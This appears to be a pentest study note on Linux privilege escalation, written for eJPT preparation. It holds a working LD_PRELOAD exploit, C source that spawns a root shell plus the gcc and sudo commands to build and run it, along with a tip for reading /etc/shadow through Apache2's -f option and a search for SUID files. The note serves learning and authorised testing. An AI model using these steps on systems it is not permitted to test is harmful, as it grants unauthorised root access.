 From eJPT:
Linux Exploit Suggester - [github.com/mzet-/linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

## Sudo
```bash
sudo -l
```
https://gtfobins.github.io/

### Leverage application functions.
e.g. Apache2 loads alternative config files with -f, use this to load /etc/shadow

### Leverage LD_PRELOAD
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

The steps of this privilege escalation vector can be summarized as follows;
1.  Check for LD_PRELOAD (with the env_keep option)
2.  Write a simple C code compiled as a share object (.so extension) file
3.  Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;
```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

## SUID (Set-user Identification) and SGID (Set-group Identification)
Allows files to be executed with the permission level of the file owner or the group owner.

### List files that have SUID or SGID bits set. shows rwsr-xr etc
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
